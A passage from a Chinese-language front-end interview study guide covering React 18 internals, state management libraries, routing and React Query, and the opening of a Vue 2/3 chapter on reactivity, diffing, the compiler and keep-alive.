  - DOM已更新但屏幕未绘制 → 可做同步测量
  - 修改后与paint在同帧 → 不会出现闪烁
```

---

### 8.7 React批量更新与React 18自动批处理

```javascript
// React 17: 事件处理器中自动批量 ✓
handleClick() {
  this.setState({ a: 1 }); // 不立即render
  this.setState({ b: 2 }); // 合并为1次render
}

// React 17: setTimeout/Promise中不批量 ✗
setTimeout(() => {
  this.setState({ a: 1 }); // 触发render #1
  this.setState({ b: 2 }); // 触发render #2  (共2次!)
}, 0);

// React 18: 所有场景都自动批处理 ✓
setTimeout(() => {
  setState({ a: 1 });
  setState({ b: 2 });
}); // 只触发1次render!

// createRoot() 开启自动批处理 (默认)
const root = ReactDOM.createRoot(el);
root.render(<App />);
```

---

### 8.8 Concurrent Mode (React 18)

**阻塞渲染 vs 并发渲染：**

| 模式 | 说明 |
|------|------|
| 阻塞 (React 17) | Task1(500ms) → Task2(300ms) → Task3(200ms) = 总计 1000ms |
| 并发 (React 18) | Task1(500ms) \| Task2(300ms) \| Task3(200ms) = ~500ms |

**特点：** React 可在执行中暂停/恢复，不阻塞主线程

**Suspense:**

```jsx
<Suspense fallback={<Loading />}>
  <Profile />  {/* 异步加载时显示fallback */}
</Suspense>

const Profile = React.lazy(() => import('./Profile'));
// lazy原理:
// 返回Promise → 视为suspended child
// → 向上查找Suspense boundary → 显示fallback
// → Promise resolved → 重新渲染,显示实际组件
```

**useTransition:**

```jsx
function App() {
  const [isPending, startTransition] = useTransition();
  const [query, setQuery] = useState('');
  const [results, setResults] = useState([]);

  const handleSearch = (e) => {
    setQuery(e.target.value); // 高优先级 (立即响应)

    startTransition(() => {
      setResults(search(e.target.value)); // 低优先级 (可中断)
    });
  };

  return (
    <div>
      <input value={query} onChange={handleSearch} />
      {isPending ? <Spinner /> : <Results items={results} />}
    </div>
  );
}
```

---

### 8.9 Next.js SSR原理

```javascript
// getStaticProps: 构建时生成静态HTML
export async function getStaticProps(context) {
  const posts = await fetchPosts();
  return { props: { posts }, revalidate: 60 }; // ISR
}

// getServerSideProps: 每次请求时SSR
export async function getServerSideProps(context) {
  const data = await fetchDataFromDB();
  return { props: { data } };
  // 或 { notFound: true } / { redirect: { destination: '/login' } }
}
```

**ISR (Incremental Static Regeneration)：**

| 步骤 | 说明 |
|------|------|
| 请求 | 检查缓存 |
| 无缓存 | SSR，缓存 HTML，返回 |
| 未过期 | 直接返回缓存 |
| 已过期 | 返回旧缓存 + 触发后台 revalidate，下次返回新缓存 |

---

### 8.10 Server Component 与 React Compiler

#### 8.10.1 Server Component (RSC)

```jsx
// Server Component (默认): 服务端执行,不发送JS
async function UsersPage() {
  const users = await db.query('SELECT * FROM users');
  return <UserList users={users} />;
}

// Client Component: 有hooks和交互
'use client';
function UserCard({ user }) {
  const [liked, setLiked] = useState(false);
  return <button onClick={() => setLiked(!liked)}>{user.name}</button>;
}
```

```
Server Component vs Client Component:

Server:  服务端执行,无bundle | 直接访问DB | async/await | ✗ hooks/状态
Client:  hooks/事件/浏览器API | bundle包含 | ✗ 直接访问DB
```

#### 8.10.2 React Compiler & React Forget

```javascript
// React Compiler: Babel Plugin,自动优化
// 源码:
function Counter({ count, onIncrement }) {
  return <button onClick={onIncrement}>{count}</button>;
}

// 编译后(自动添加memo+比较函数):
const _comp = React.memo(function Counter({ count, onIncrement }) {
  return <button onClick={onIncrement}>{count}</button>;
});

// React Forget: 更激进的优化编译器
// - 自动添加 React.memo
// - 自动修正 useCallback/useMemo
// - 自动提取不必要的闭包捕获
```

---

### 8.11 状态管理: Zustand / Jotai / Recoil

#### 8.11.1 Zustand原理

```javascript
// Zustand: 极简状态管理 (~100行核心)
import { create } from 'zustand';

const useStore = create((set, get) => ({
  bears: 0,
  increase: () => set(s => ({ bears: s.bears + 1 })),
}));

function Counter() {
  const bears = useStore(s => s.bears); // 精确选择,减少re-render
  return <h1>{bears}</h1>;
}

// 极简实现:
function createStore(init) {
  let state; const listeners = new Set();
  const set = (partial) => {
    state = { ...state, ...(typeof partial==='function' ? partial(state) : partial) };
    listeners.forEach(l => l(state));
  };
  state = init(set, () => state);
  return { getState: () => state, setState: set,
    subscribe: l => { listeners.add(l); return () => listeners.delete(l); } };
}
```

#### 8.11.2 Jotai原理

```javascript
// Jotai: 原子(Atom)模型,细粒度响应式
import { atom, useAtom } from 'jotai';

const countAtom = atom(0);
const doubledAtom = atom(get => get(countAtom) * 2); // 派生原子

function Counter() {
  const [count, setCount] = useAtom(countAtom);
  const [doubled] = useAtom(doubledAtom);
  return (
    <div>
      <span>{count} ({doubled})</span>
      <button onClick={() => setCount(c => c + 1)}>+</button>
    </div>
  );
}
// 原理: React外部存储 + Subscription + 依赖追踪
```

#### 8.11.3 Recoil原理

```javascript
// Recoil: atom+selector模型,与React并发模式深度集成
const todoListState = atom({ key: 'todoList', default: [] });

const filteredState = selector({
  key: 'filtered',
  get: ({ get }) => get(todoListState).filter(t => t.done),
});

// useRecoilState读取Fiber tree的lane上下文
// 自动参与React的并发调度
```

---

### 8.12 Redux单向数据流

**数据流：** Action → Dispatch → Reducer → New State

**为什么单向数据流重要：**
- 可预测性：任何状态变化都来自明确的 action
- 可追踪：action 是纯文本描述 `{type:'INCREMENT'}`
- 可重现：同 action 序列产生同状态
- 可测试：reducer 是纯函数
- 时间旅行：action 序列可存储/回放（Redux DevTools）

```
Redux vs MobX vs Zustand:

Redux: Store→Action→Reducer→Store→UI (纯函数)
       大型项目 + DevTools时间旅行

MobX: Action↔Observable State↔Computed↔UI (响应式)
       中型项目,自动追踪依赖

Zustand: Store(极简) → UI
       轻量项目,无样板代码
```

---

### 8.13 React性能优化

#### 8.13.1 避免重复渲染

```jsx
// ❌ 原因1: 父组件渲染 → 所有子组件无条件重新渲染
function Parent() {
  const [count, setCount] = useState(0);
  return (
    <div>
      <button onClick={() => setCount(c => c + 1)}>+{count}</button>
      <Header />   {/* 不需要count,但每次re-render */}
      <SideBar />  {/* 不需要count,但每次re-render */}
    </div>
  );
}

// ❌ 原因2: 每次新建对象/数组引用
<Child config={{ theme: 'dark' }} />  // 每次都是新对象

// ❌ 原因3: 每次新建函数
<Child onClick={() => doSomething()} />
```

#### 8.13.2 React.memo / useMemo / useCallback

```jsx
// React.memo: 浅比较props,相同则跳过render
const MemoChild = React.memo(function Child({ data, onClick }) {
  return <div onClick={onClick}>{data.title}</div>;
});

// useMemo: 缓存计算结果
const filtered = useMemo(() => items.filter(f), [items, filter]);

// useCallback: 缓存函数引用
const handleClick = useCallback(() => action(id), [id]);
```

#### 8.13.3 Immutable原则

```javascript
// ✅ 创建新引用
setState({ ...state, items: [...state.items, newItem] });

// ✅ Immer
import { produce } from 'immer';
setState(produce(draft => { draft.items.push(newItem); }));

// 为什么重要: React.memo/useMemo基于浅比较(===)
```

#### 8.13.4 React.memo原理

```javascript
// 简化实现:
function memo(Component, arePropsEqual) {
  return function MemoizedComponent(props) {
    if (prevProps && (arePropsEqual
      ? arePropsEqual(prevProps, props)
      : shallowEqual(prevProps, props))) {
      return null; // 跳过render,复用上次DOM
    }
    prevProps = props;
    return <Component {...props} />;
  };
}

// shallowEqual: 对第一层属性做 === 比较
```

#### 8.13.5 useMemo为什么不能乱用

```
❌ 过早优化: useMemo(() => 1+1, []) → 计算极快,缓存开销更大
❌ 错误依赖: useMemo(() => compute(count), []) → 永远是初始值
❌ 渲染中setState: useMemo里调用setState → 可能死循环

✅ 昂贵计算: 排序/搜索/复杂计算 → 收益大于开销
✅ 稳定引用: 传给React.memo子组件的对象/数组
✅ 派生计算: 避免每次render重新计算
```

---

### 8.14 React合成事件原理

**React 17+ Fiber 上的事件处理流程：**

| 步骤 | 说明 |
|------|------|
| 1 | 用户点击 button，浏览器 dispatchEvent('click') |
| 2 | React 捕获事件（挂载在 root 节点，而非 document） |
| 3 | 构建 SyntheticEvent（跨浏览器兼容） |
| 4 | 从 target fiber 向上遍历（通过 return 指针） |
| 5 | 收集所有 onClick 处理器 |
| 6 | 按 capturing → target → bubbling 顺序执行 |

**为什么用合成事件：**
1. 跨浏览器兼容（IE/Firefox/Chrome 行为一致）
2. 事件委托（减少绑定数量）
3. 对象池复用（减少 GC 压力）
4. React 17+ 根节点隔离（支持多版本 React 共存）
    N2 --> N3
    N3 --> N4
    N4 --> N5
    N5 --> N6
    N6 --> N7
    N7 --> N8
    N8 --> N9
    N9 --> N10
    N10 --> N11
    N11 --> N12
    N12 --> N13
```

---

### 8.15 Hooks为什么不能条件调用

```javascript
// ❌ 错误:
function Comp({ show }) {
  const [a, setA] = useState(0);  // Hook #1
  if (show) {
    const [b, setB] = useState('');  // Hook #2 (条件)
  }
  const [c, setC] = useState(0);  // Hook #3/#2?
  return <div>{a}{show && b}{c}</div>;
}

// show=true: Hook链表=[#1, #2, #3]
// show=false: Hook链表=[#1, #3]
// → Hook#3被错配到Hook#2的位置 → 状态错乱!

// ✅ 正确: 始终按顺序调用
function Comp({ show }) {
  const [a, setA] = useState(0);
  const [b, setB] = useState(''); // 始终调用
  const [c, setC] = useState(0);
  return <div>{a}{show && b}{c}</div>;
}
```

---

### 8.16 React Router原理

#### 8.16.1 Hash路由 vs History路由

```javascript
// Hash: https://app.com/#/home
//   ✓ 不需要服务器配置,刷新不404
//   ✗ URL带#号,SEO不友好

// History: https://app.com/home
//   ✓ 干净URL,SEO友好
//   ✗ 需要服务器配置(所有路径返回index.html)
```

#### 8.16.2 React Router实现原理

```javascript
// 1. 监听路由变化
function useRouter() {
  const [path, setPath] = useState(window.location.pathname);
  useEffect(() => {
    const fn = () => setPath(window.location.pathname);
    window.addEventListener('popstate', fn);
    return () => window.removeEventListener('popstate', fn);
  }, []);
  return path;
}

// 2. 路由匹配 (将 /users/:id 转为正则)
function matchRoute(path, routePath) {
  const paramNames = [];
  const regex = routePath.replace(/:(\w+)/g, (_, name) => {
    paramNames.push(name);
    return '([^/]+)';
  });
  const match = path.match(new RegExp('^' + regex + '$'));
  if (!match) return null;
  return paramNames.reduce((params, name, i) => {
    params[name] = match[i + 1];
    return params;
  }, {});
}

// 3. 嵌套路由通过<Outlet>渲染子路由
```

```
React Router匹配算法:

URL: /users/123/posts/456

Routes:
  <Routes>
    <Route path="/" element={<Home />} />
    <Route path="/users/:userId" element={<User />}>
      <Route path="posts/:postId" element={<Post />} />
    </Route>
  </Routes>

匹配过程:
  1. / → 否
  2. /users/:userId → 是, userId=123
     → User渲染, Outlet渲染子路由
  3. posts/:postId → 是, postId=456 → Post渲染
```

---

### 8.17 React Query原理

```javascript
import { useQuery, useMutation, useQueryClient } from '@tanstack/react-query';

function User({ id }) {
  const { data, isLoading } = useQuery({
    queryKey: ['user', id],        // 唯一缓存键
    queryFn: () => fetch(`/api/users/${id}`).then(r => r.json()),
    staleTime: 5 * 60 * 1000,     // 5分钟内不重新获取
    cacheTime: 10 * 60 * 1000,    // 缓存保留10分钟后GC
    retry: 3,                      // 失败重试3次
  });
  if (isLoading) return <Spinner />;
  return <div>{data.name}</div>;
}

// 乐观更新: 立即更新UI,出错时回滚
const mutation = useMutation({
  mutationFn: (todo) => api.createTodo(todo),
  onMutate: async (todo) => {
    await queryClient.cancelQueries(['todos']);
    const previous = queryClient.getQueryData(['todos']);
    queryClient.setQueryData(['todos'], old => [...old, todo]);
    return { previous }; // 返回给onError回滚
  },
  onError: (err, todo, ctx) => {
    queryClient.setQueryData(['todos'], ctx.previous);
  },
  onSettled: () => {
    queryClient.invalidateQueries(['todos']); // 最终同步
  },
});
```

```
React Query缓存生命周期:
  1. queryFn执行 → loading
  2. 数据返回 → 存入cache (staleTime计时开始)
  3. staleTime内 → 直接用缓存
  4. staleTime后 → 后台重新获取 + 同时返回缓存
  5. cacheTime后无引用 → GC清理
```

---

### 8.18 React权限系统实现

```javascript
// 基于RBAC的权限系统:

const permissions = {
  'user:read':   ['admin','editor','viewer'],
  'user:write':  ['admin','editor'],
  'user:delete': ['admin'],
};

function usePermission(action, resource) {
  const { user } = useAuth();
  return permissions[`${resource}:${action}`]?.includes(user?.role) ?? false;
}

const Can = ({ action, resource, children, fallback = null }) => {
  return usePermission(action, resource) ? children : fallback;
};

// 使用:
<Can action="delete" resource="user" fallback={<span>无权限</span>}>
  <DeleteButton />
</Can>

// 高阶组件:
function withPermission(Component, action, resource) {
  return (props) => usePermission(action, resource)
    ? <Component {...props} /> : <AccessDenied />;
}
```

---

### 8.19 React微前端实现 (Module Federation)

```javascript
// Webpack 5 Module Federation: 共享代码,独立部署

// Host (主应用):
new ModuleFederationPlugin({
  name: 'host',
  remotes: {
    remoteApp: 'remoteApp@https://remote.com/remoteEntry.js',
  },
  shared: { react: { singleton: true }, 'react-dom': { singleton: true } },
});

// Remote (子应用):
new ModuleFederationPlugin({
  name: 'remoteApp',
  filename: 'remoteEntry.js',
  exposes: {
    './ProductList': './src/ProductList',
    './UserProfile': './src/UserProfile',
  },
  shared: { react: { singleton: true } },
});

// Host中使用Remote组件:
const RemoteProductList = React.lazy(() => import('remoteApp/ProductList'));
```

**Module Federation 架构：**

| 组件 | 说明 |
|------|------|
| remoteEntry.js | 远程模块入口文件 |
| Host App | 主应用 |
| Remote App | 远程应用（暴露模块） |
| ProductList.js | 暴露的组件 |

**使用方式：**
```javascript
const RemoteProductList = React.lazy(() => import('remoteApp/ProductList'));
// 共享 react/react-dom
```

---

### 8.20 React大规模状态管理方案

**大规模 React 应用状态分层：**

| 层级 | 方案 | 使用场景 |
|------|------|---------|
| Global | Redux Toolkit / Zustand | 用户认证、主题、全局通知、跨页面共享状态 |
| Feature | Context / Jotai | 功能模块内共享（多个独立 Context/Store，避免单一巨型 Context） |
| Local | useState / useReducer | 组件私有：表单、临时 UI、动画 |

**实践建议：**
1. 状态尽量下沉（不放根组件）
2. Context 按功能拆分（AuthContext, ThemeContext...）
3. Server State 用 React Query/SWR（不放 Redux）
4. URL 作为状态（搜索/筛选/分页 URLSearchParams）
5. 派生状态用 selector/memo：避免重复计算
6. Immutable 优先：方便 DevTools 调试

```
推荐架构组合:

  React 18 + Concurrent Rendering
        +
  Next.js App Router (RSC)      ← Server State
        +
  TanStack Query (Client RPC)   ← Server Cache State
        +
  Zustand (Global UI State)     ← 用户偏好/认证/主题
        +
  Jotai (Feature State)         ← 局部复杂交互
        +
  useState (Component State)    ← 表单/UI

不推荐单一Redux用于所有状态:
  - Server State在Redux中 → 手动管理缓存/重试/轮询
  - boilerplate → Redux Toolkit减少
  - DevTools → 仍是最好的时间旅行调试工具
```

---

*（React终极题库 · 完）*


---

*Chapters 5 & 6 — 完*

---

## Chapter 9: Vue超完整题库

### 9.1 Vue2 vs Vue3区别

#### 响应式系统

**Vue2: Object.defineProperty**

```javascript
// Vue2 响应式原理（简化版）
function defineReactive(obj, key, val) {
  Object.defineProperty(obj, key, {
    enumerable: true,
    configurable: true,
    get() {
      console.log(`读取 ${key}`)
      return val
    },
    set(newVal) {
      if (newVal !== val) {
        console.log(`设置 ${key}: ${newVal}`)
        val = newVal
        // 触发通知更新
      }
    }
  })
}
```

缺陷：
- **无法监听新增属性**：`Vue.set(obj, 'newProp', 1)` 变通方案
- **无法监听删除**：`Vue.delete(obj, 'prop')` 变通方案
- **数组下标**：Vue2.2+ 才支持通过索引设置（性能代价大）
- 深度嵌套时需要递归，初始化时性能差

**Vue3: Proxy**

```javascript
// Vue3 响应式原理
function reactive(obj) {
  return new Proxy(obj, {
    get(target, key, receiver) {
      const res = Reflect.get(target, key, receiver)
      track(target, key)
      return typeof res === 'object' ? reactive(res) : res
    },
    set(target, key, value, receiver) {
      const oldValue = target[key]
      const res = Reflect.set(target, key, value, receiver)
      if (oldValue !== value) {
        trigger(target, key)
      }
      return res
    },
    deleteProperty(target, key) {
      const hadKey = key in target
      const res = Reflect.deleteProperty(target, key)
      if (hadKey && res) {
        trigger(target, key)
      }
      return res
    }
  })
}
```

#### TypeScript支持

- Vue2: 通过 `vue-property-decorator` 等装饰器库模拟类型支持，不够原生
- Vue3: 源码完全用 TypeScript 重写，提供完美的类型推导

```typescript
// Vue3 defineProps 类型推断
const props = defineProps<{
  name: string
  age?: number
}>()

// withDefaults 提供默认值
const props = withDefaults(defineProps<{
  list: string[]
}>(), {
  list: () => []
})
```

#### Composition API

Vue2 使用 Options API（data/computed/methods/watch 分散）；Vue3 提供 Composition API，相同逻辑可以聚合，代码复用更优雅（mixin → composables）。

#### Virtual DOM实现

Vue2: 基于 `src/core/vdom/create-element.js`，手动编写 VNode 类型判断。Vue3: 引入 `block tree` 和 `patchFlag`，虚拟 DOM 遍历大幅减少。

#### 性能

- 打包体积：Vue3 (22KB gzipped) vs Vue2 (~33KB)
- 初始渲染：快 20-50%（Proxy + block tree）
- 更新性能：平均快 2-3 倍
- 内存占用：减少近 50%

---

### 9.2 Vue响应式原理（defineProperty缺点 vs Proxy优势）

#### defineProperty 的三大缺陷

```javascript
// 缺陷1：新增属性不响应
const vm = new Vue({ data: { a: 1 } })
vm.b = 2        // ❌ 不触发更新
vm.$set(vm, 'b', 2) // ✅ 变通方案

// 缺陷2：删除属性不响应
delete vm.a     // ❌ 不触发更新
vm.$delete(vm, 'a') // ✅ 变通方案

// 缺陷3：数组直接用索引赋值不响应
vm.items[0] = {} // ❌ 在Vue2中不响应
vm.$set(vm.items, 0, {}) // ✅
vm.items.splice(0, 1, {}) // ✅
```

#### Proxy 的优势

```javascript
// 优势1：天然支持新增/删除属性
const obj = reactive({ a: 1 })
obj.b = 2     // ✅ 自动触发 set
delete obj.a  // ✅ 自动触发 deleteProperty

// 优势2：支持数组下标
const arr = reactive([1, 2, 3])
arr[0] = 10   // ✅ 正常工作

// 优势3：惰性代理（按需递归）
// Vue3只在访问时才对嵌套对象做代理，Vue2初始化时递归所有属性

// 优势4：非原始值自动嵌套
const state = reactive({
  user: { name: 'John', address: { city: 'BJ' } }
})
state.user.address.city = 'SH' // ✅ 深层响应式

// 优势5：性能更好，不需要defineProperty的get/set包装
// 优势6：可以拦截更多操作（has: key in obj, apply: 函数调用等）
```

#### Vue3 的依赖追踪（基于 Proxy）

```
访问响应式属性 → track(target, key) 记录当前activeEffect
设置响应式属性 → trigger(target, key) 找到所有依赖的effect执行
```

---

### 9.3 ref vs reactive 区别

| 特性 | ref | reactive |
|------|-----|---------|
| 接受类型 | 基本类型 + 对象 | 仅对象/数组 |
| 实现方式 | 对基本类型包装为{value: x}，内部用reactive处理对象 | 直接用Proxy |
| 模板访问 | 自动展开（不需要.value） | 直接访问 |
| 解构 | 丢失响应式 | 解构后丢失响应式（需用toRefs） |
| 类型推导 | 需要泛型指定 | 自动推导 |

```typescript
// ref: 基本类型必须用ref，对象内部会自动转reactive
const count = ref(0)
count.value++

const obj = ref({ a: 1 })
obj.value.a++          // 需要 .value

// reactive: 适合复杂响应式状态
const state = reactive({
  count: 0,
  user: { name: 'John' }
})

// reactive解构丢失响应式 → 使用toRefs
const state = reactive({ a: 1, b: 2 })
const { a, b } = toRefs(state) // a, b 变成 ref，保留响应式

// toRef: 创建一个 ref，保持与源属性的引用关系
const age = toRef(state, 'a') // age.value === state.a
```

**原理简析**：
- `ref` 内部创建了一个包裹对象，通过 `get value() / set value()` 拦截，当 value 是对象时内部调用 `reactive()` 处理。
- `reactive` 直接返回 `new Proxy(target, ...)`。

---

### 9.4 computed 原理

```typescript
// 用法
const doubleCount = computed(() => count.value * 2)

// 惰性求值 + 缓存
// 只有依赖变化时才重新计算，否则返回缓存值
```

**computed 原理：**

| 步骤 | 说明 |
|------|------|
| 首次访问 | 执行 getter，返回结果，收集依赖 (a, b) |
| 依赖变化 | a.value 变化 → trigger(computed) → computed.dirty = true |
| dirty check | 通知所有依赖 computed 的 effect |
| 再次访问 | dirty=true 重新执行 getter 返回新值，dirty=false 直接返回缓存值 |

**源码级实现要点**：
```javascript
// 简化版
class ComputedRefImpl {
  constructor(getter) {
    this._dirty = true
    this._value = null
    this.effect = effect(getter, () => {
      this._dirty = true   // 依赖变化时标记 dirty
      trigger(this, 'value')
    })
  }

  get value() {
    if (this._dirty) {
      this._value = this.effect.run() // 重新计算
      this._dirty = false
    }
    return this._value
  }
}
```

关键点：computed 本质是一个有缓存的 effect，`dirty` 标志实现惰性重算。

---

### 9.5 watch vs watchEffect 区别

| 特性 | watch | watchEffect |
|------|-------|------------|
| 依赖收集 | 手动指定 source | 自动收集（立即执行） |
| 首次执行 | 不执行（默认） | 立即执行一次 |
| 回调参数 | (newVal, oldVal) | 没有 oldVal |
| 停止 | 返回 stop() | 同上 |

```typescript
// watch: 惰性，只有变化才执行，可访问旧值
watch(() => state.count, (newVal, oldVal) => {
  console.log(`${oldVal} → ${newVal}`)
}, { immediate: true }) // immediate: true 时首次也执行

// watchEffect: 自动追踪回调中用到的所有响应式数据
watchEffect(() => {
  console.log(state.count) // 自动追踪 count 依赖
  console.log(state.name)  // 自动追踪 name 依赖
})

// 监听多个源
watch([ref1, ref2], ([v1, v2], [o1, o2]) => {
  console.log(v1, v2)
})

// 深度监听
watch(() => deepObj, (val) => {}, { deep: true })

// 停止监听
const stop = watch(...)
stop() // 停止
```

**选择策略**：
- 需要旧值 → `watch`
- 回调内明确知道依赖 → `watch`
- 只需响应式状态副作用，不关心旧值 → `watchEffect`（更简洁）

---

### 9.6 nextTick 原理（微任务队列 + flush callbacks）

```javascript
// 用法
async function update() {
  state.name = 'new name'
  await nextTick()  // DOM已更新
  console.log(document.querySelector('.title').textContent)
}
```

**nextTick 原理：**

| 步骤 | 说明 |
|------|------|
| nextTick(callback) | callback 推入 callbacks 队列 |
| flushCallbacks | 调用 flushCallbacks（异步执行队列中所有回调） |
| 微任务执行 | `Promise.resolve().then(flushCallbacks)` |
| 执行回调 | `while(queue.length) queue.shift()()`，依次执行所有入队的回调 |

**微任务选择**：Vue3 优先使用 `Promise.resolve()` → 微任务；Vue2 依次降级：`Promise` → `MutationObserver` → `setImmediate` → `setTimeout(fn, 0)`。

**微任务选择**：Vue3 优先使用 `Promise.resolve()` → 微任务；Vue2 依次降级：`Promise` → `MutationObserver` → `setImmediate` → `setTimeout(fn, 0)`。

**为什么需要 flush callbacks 队列？**

```javascript
// 场景：连续多次修改同一个响应式数据
state.count = 1
state.count = 2
state.count = 3
await nextTick() // 只在最后一次微任务中更新一次DOM，而不是三次
```

Vue 批量更新（Batching）：同一事件循环内的多次状态变更会被合并，只触发一次 DOM 更新。`flushSchedulerQueue` 是批量的核心，它在微任务中执行所有 pending 的 watcher 更新。

---

### 9.7 Vue diff 原理（patch策略 + 递归diff + key的重要性）

#### diff策略（同层比较）

| 节点操作 | 说明 |
|---------|------|
| div (same) | 同节点，diff children |
| p (same) | 同节点，diff children |
| span (moved) | 同节点，移动 |
| h1 (removed) | 不同节点，删除 |

**核心**：`updateChildren` 方法，4 指针头尾比较

Vue2 diff 核心：`updateChildren` 方法，4指针头尾比较

```
旧 children: [A, B, C, D]
新 children: [A, B, E, C]

指针: oldS=0(A) oldE=3(D)  newS=0(A) newE=2(C)

Step1: A vs A → same → 复用，oldS++, newS++
Step2: B vs B → same → 复用，oldS++, newS++
Step3: D vs E → patch → 复用但内容变，oldE--, newS++
Step4: C vs C → same → 复用，oldS++, newS++
Step5: E vs D → (尾部比较) → 移动
```

#### key 的重要性

```html
<!-- 没有 key: 所有节点 patch，但可能不移动 -->
<div v-for="item in items" :key="item.id">
  <!-- 正确：唯一标识，节点可复用 -->
</div>

<!-- 问题案例：没有 key 时，删除中间项 -->
<!-- items: [A, B, C] → [A, C] -->
<!-- 无key：patch比较，发现C内容匹配B标签，B标签被复用 -->
<!-- 有key：直接知道删除了B，效率更高 -->
```

**无 key 陷阱**：
```html
<!-- 计数器列表，不用key导致状态错位 -->
<div v-for="(item, index) in list" :key="index"> <!-- ❌ index作key危险 -->
  <input v-model="item.value" />
</div>
<!-- 列表前插入新项，index全部变化，DOM全部重新创建 -->
```

**有 key 优势**：
1. 精确匹配节点，最小化 DOM 操作
2. 列表重排时触发正确的 transition
3. 保持组件状态（如 input 焦点）

---

### 9.8 patchFlag 与 Block Tree

#### patchFlag（动态标记）

```javascript
// 编译器输出示例
const __sfc = {
  render(_ctx) {
    return _h('div', {
      class: 'static-class',  // 静态，无标记
      id: _ctx.dynamicId,      // 动态 → 需要 patchFlag
    }, [
      _h('span', 1 /* TEXT */, _ctx.msg),        // 文本动态
      _h('span', 8 /* CLASS */, _ctx.className), // CLASS 动态
    ])
  }
}
```

**patchFlag 标志位**：
| 标志 | 含义 |
|------|------|
| 1 | TEXT，仅文本内容变化 |
| 2 | CLASS，class 变化 |
| 4 | STYLE，style 变化 |
| 8 | PROPS，props 变化 |
| 16 | FULL_PROPS，所有 props 变化 |
| 32 | HYDRATE_EVENTS，事件绑定变化 |
| 64 | STABLE_FRAGMENT，fragment 子节点稳定 |

#### Block Tree（块树）

```javascript
// Vue3 编译器为每个 block 生成独立的 children 数组
// 只有 block 内的动态节点才需要 diff

// 模板:
<div>
  <h1>{{ title }}</h1>     <!-- 动态：patchFlag=1 -->
  <p>{{ desc }}</p>          <!-- 动态：patchFlag=1 -->
  <span>静态文本</span>       <!-- 静态：不在 diff 范围内 -->
</div>

// 编译后 block tree：
Block {
  dynamicChildren: [
    { type: 'span', patchFlag: 1, children: title },   // 只 diff 这些
    { type: 'p', patchFlag: 1, children: desc }
  ],
  children: [ /* 全部静态+动态节点 */ ]
}
// diff 时只遍历 dynamicChildren，O(动态节点数) 而非 O(总节点数)
```

#### 静态提升（Static Hoisting）

```javascript
// Vue3 编译时提升到 render 函数外部，只创建一次

// 编译前：
<div>
  <span>静态文本</span>
  <p>{{ dynamic }}</p>
</div>

// 编译后（Vue3）：
const _hoisted_1 = _createElementVNode('span', null, '静态文本')
return function render(_ctx, _cache) {
  return _openBlock(), _createElementBlock('div', null, [
    _hoisted_1,                        // 复用，提升的静态节点
    _createElementVNode('p', null, _ctx.dynamic)  // 动态创建
  ])
}
```

---

### 9.9 Vue Compiler 原理（template → render函数 → VNode）

#### 编译三阶段

| 阶段 | 输入 | 输出 | 说明 |
|------|------|------|------|
| 1. parse（解析） | template 字符串 | template AST | 正则匹配标签、属性、指令、插值表达式 |
| 2. transform（转换） | AST | 增强 AST | 插件化：v-if 三元表达式，v-for 循环函数 |
| 3. codegen（代码生成） | 增强 AST | render 函数代码字符串 | `new Function('with(this) { return ' + code)` |

**生成代码示例：**
```javascript
_c('div', { id: _ctx.id }, [
  _v(_toDisplayString(_ctx.msg))
])
```

#### AST 节点类型

```javascript
// div id="app">{{ message }}<span v-if="show">条件</span></div>
{
  type: 'Element',
  tag: 'div',
  props: [{ type: 'Attribute', name: 'id', value: 'app' }],
  children: [
    { type: 'Interpolation', content: { content: 'message' } },
    {
      type: 'Element', tag: 'span',
      props: [],
      children: [{ type: 'Text', content: '条件' }],
      branchIndex: 0,
    }
  ]
}
```

#### render 函数执行 → VNode

```javascript
// 运行时生成的 render 函数
render() {
  return _c('div', { id: 'app' }, [
    _v(_toDisplayString(_ctx.message)),
    _ctx.show ? _c('span', null, [_v('条件')]) : _createEmptyVNode()
  ])
}

function _c(tag, data, children) {
  return createVNode(tag, data, children)
}
```

---

### 9.10 template 为什么比 JSX 更快

```
JSX: 所有组件调用都是动态的
     ↓
     每次 render 需要调用所有子组件函数
     → Virtual DOM diff 时才知道哪些变了
     → 无法预知哪些是动态的

Template: 编译时已知静态/动态边界
     ↓
     patchFlag 告诉运行时精确的动态类型
     block tree 只 diff 动态部分
     静态子树完全跳过 diff

性能差距来源：
  1. 编译期优化（patchFlag/静态提升）JSX 无法做到
  2. 运行时 diff 范围：template O(动态节点数)，JSX O(总节点数)
  3. 内存：JSX 每次创建新函数对象，template 更精简
```

JSX 的优势在于灵活性，template 的优势在于编译优化。Vue3 的 SFC（单文件组件）也支持 render 函数和 JSX，兼顾两边。

---

### 9.11 keep-alive 原理

#### 核心思想

`keep-alive` 缓存组件实例而非销毁，保留组件状态（data、滚动位置等）。

```
<keep-alive :include="['Home', 'About']" :exclude="'Login'">
  <component :is="currentView" />
</keep-alive>
```

#### 缓存策略

```javascript
// 内部维护两个 Map（LRU 最近最少使用）
this.cache = new Map()   // key → vnode
this.keys = []           // 按访问顺序记录 key，max 限制后淘汰最老的

// 命中缓存
if (cache[key]) {
  vnode.componentInstance = cache[key].componentInstance
  remove(keys, key)
  keys.push(key)
} else {
  cache[key] = vnode
  keys.push(key)
  if (max && keys.length > max) {
    const oldKey = keys.shift()
    delete cache[oldKey]
  }
}
```

#### activated / deactivated 钩子

```javascript
// 被缓存的组件：
export default {
  activated() {
    // 组件从缓存中被激活
    console.log('组件被激活')
  },
  deactivated() {
    // 组件被停用（切走但未销毁）
    console.log('组件被停用')
  }
}
```

#### 生命周期调用时机

```
首次挂载: created → mounted → activated
切走（缓存）: deactivated
切回（缓存）: activated
销毁: deactivated → beforeUnmount → unmounted
```

---

### 9.12 Teleport 与 Suspense

#### Teleport（传送门）

```vue
<!-- 将 modal 传送到 body -->
<teleport to="body">
  <div class="modal">内容</div>
</teleport>

<!-- 条件传送 -->
<teleport to="body" :disabled="!isOpen">
  <div>只在 isOpen 时传送</div>
</teleport>
```

**原理**：在挂载时将真实 DOM 移动到指定位置，渲染逻辑仍在当前组件，输出位置在目标节点。

#### Suspense（悬念）

```vue
<suspense>
  <template #default>
    <async-component />
  </template>
  <template #fallback>
    <loading-spinner />
  </template>
</suspense>
```

Suspense 利用 `async setup`（返回 Promise），在 setup resolve 前显示 `#fallback`，resolve 后渲染 `#default`。

---

### 9.13 Vue Router 原理

#### hash vs history 模式

| 特性 | hash 模式 | history 模式 |
|------|----------|-------------|
| URL | `localhost/#/path` | `localhost/path` |
| 刷新 | 不需要 server 配置 | 需要 server 代理所有路径到 index.html |
| 部署 | 任意静态服务器 | 需要 nginx rewrite 或后端配置 |
